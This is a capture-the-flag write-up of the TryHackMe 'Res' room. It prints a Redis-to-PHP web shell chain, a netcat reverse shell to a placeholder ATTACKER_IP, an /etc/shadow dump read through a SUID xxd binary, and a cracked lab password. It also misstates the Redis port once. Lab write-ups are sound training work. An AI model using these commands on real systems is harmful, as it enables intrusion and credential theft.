 ```yaml
---
title: "TryHackMe: Res"
collection: publications
permalink: /publication/RES
excerpt: 'This is a subscriber only room from Tryhackme'
date: 2023-02-22
venue: '02-22'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/header1.png)

**Link:** [Res](https://tryhackme.com/room/res)

## Description : 
Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

--- 

## Enumeration :
let's scan the target with nmap

``` console
nmap -sC -sV -T4 -p- 10.10.239.82 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 09:06 EST
Nmap scan report for 10.10.239.82
Host is up (0.10s latency).
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.04 seconds
```

* we got 2 open ports: 80 (apache web server) and 5279 (Redis which is a data structure storage service)
* i did some research and i found some enumeration steps for [Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
* we can connect to redis service via redis-cli without credentials

**how to install redis-tools**

```bash
sudo apt-get install redis-tools
```

## Foothold :

* To achieve RCE we need to know the web directory, by default it's /var/www/html and we can be sure if we look at the apache web server
![proof](/images/proof.png)

* Run the following commands to achieve RCE :


```bash
redis-cli -h 10.10.239.82
 
10.10.239.82:6379> config set dir /var/www/html
OK
10.10.239.82:6379> config set dbfilename shell.php
OK
10.10.239.82:6379> set test "<?php system($_GET['cmd']) ?>"
OK
10.10.239.82:6379> save
OK
10.10.239.82:6379> exit
```


**let's start a netcat listener**


```bash
# nc -lvnp 1234
```

**let's trigger the reverse shell by visiting:**

```bash
http://10.10.239.82/shell.php?cmd=nc ATTACKER_IP PORT -e /bin/bash
```

![website](/images/revshell.png)

* we are in as www-data

```bash
# nc -lvnp 1234                         
listening on [any] 1234 ...
connect to [10.18.2.136] from (UNKNOWN) [10.10.239.82] 51758
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

* we can upgrade the revese shell using the following commands

```bash
# python3 -c 'import pty;pty.spawn("/bin/bash")'
# export TERM=xterm
PRESS CTRL+Z
# stty raw -echo; fg
```

## Horizontal Privilege Escalation :
* We can see that there is a user called Vianka
* Let's check the files that have the SUID bit set
```bash
find / -perm -u=s -type f 2>/dev/null
``` 
![suid](/images/suid.png)

* The results show a binary xxd with the SUID bit set and the owner is root

* next step is to visit [GTFOBins](https://gtfobins.github.io/#)

![xxd](/images/xxd.png)

* We can read any file as root
* Let's read the shadow file and see if we can crack Vianka's hash

```bash
www-data@ubuntu:/home/vianka$ xxd /etc/shadow | xxd -r 
xxd /etc/shadow | xxd -r 
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
**crack Viank's hash with john**
![hash](/images/hash.png)

* switch user to vianka and get the flag 

![user-flag](/images/user-flag.png)

## Vertical Privilege Escalation :
* Let's check sudo privileges

```bash
vianka@ubuntu:~$ sudo -l
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```
* Vianka can run any commands with sudo
* All we need to do is run **sudo su**

![root-flag](/images/root-flag.png)